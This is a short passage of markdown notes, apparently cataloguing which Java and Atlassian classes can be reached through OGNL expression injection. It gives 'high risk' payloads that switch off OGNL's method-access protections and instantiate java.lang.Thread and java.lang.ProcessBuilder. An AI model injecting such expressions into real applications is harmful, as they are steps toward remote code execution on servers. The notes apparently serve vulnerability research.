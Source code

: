  ```js
  ```


### 6 = "com.atlassian.applinks.api.ApplicationLinkRequestFactory"
* [atlassian doc](https://docs.atlassian.com/applinks-api/3.2/com/atlassian/applinks/api/ApplicationLinkRequestFactory.html)


### 7 = "java.lang.Thread"
* payload
  ```js
  // high risk
  %{#_memberAccess.allowStaticMethodAccess=true,
  #context["xwork.MethodAccessor.denyMethodExecution"]=false,
  #a=new java.lang.Thread()}
  ```
  ![](./imgs/chop-07-001.png)


### 8 = "com.atlassian.core.util.ClassLoaderUtils"
* [atlassian doc](https://docs.atlassian.com/DAC/javadoc/atlassian-core/4.6.0/reference/com/atlassian/core/util/ClassLoaderUtils.html)


### 9 = "java.lang.ProcessBuilder"
* payload
  ```js
  // high risk
  %{#a=new java.lang.ProcessBuilder()}
  ```